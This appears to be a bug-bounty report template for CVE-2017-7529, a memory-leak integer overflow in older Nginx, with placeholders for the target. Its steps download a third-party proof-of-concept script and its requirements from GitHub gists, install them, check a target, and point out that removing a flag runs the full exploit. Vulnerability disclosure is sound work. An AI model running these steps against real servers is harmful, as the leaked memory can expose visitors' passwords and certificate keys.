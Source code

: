 
## Summary:
Some older versions of Nginx contain a known integer overflow vulnerability which can be exploited to leak memory from the web server. Leaking memory from a web server is generally harmful, as it would contain requests from the visitors including user passwords. It can also hold keys for certificates.
It was possible to find a working POC to check if the asset es vulnerable. (Also possible to run the exploit itself)

## Asset
$URL (running Nginx version $VERSION)

## Steps To Reproduce:

I found the nginx version using curl:

`curl -vk $URL`

$HEADER



To run this POC you will need python2. 

  1. Download POC

  `wget  https://gist.githubusercontent.com/BlackVirusScript/75fae10a037c376555b0ad3f3da1a966/raw/d1cc081053636711881ea45c84e0971d5babe103/CVE-2017-7529.py`
  
  2. Install required packages. Download requirements file:

`wget https://gist.githubusercontent.com/pdelteil/31018e965de027bd07f742b6e8c00983/raw/3b897c11b96284e6aadd10d74bb0757ada65b78d/requirements.txt`

Then
`pip install -r requirements.txt`   

 3. Run (checks if it's vulnerable):
`python CVE-2017-7529.py -c $URL`

Expected output

[+] $URL is Vulnerable: TRUE

You could also run the exploit removing the -c flag

`python CVE-2017-7529.py h$URL`



## Supporting Material/References:
[CVE-2017-7529](https://nvd.nist.gov/vuln/detail/CVE-2017-7529)


## Impact

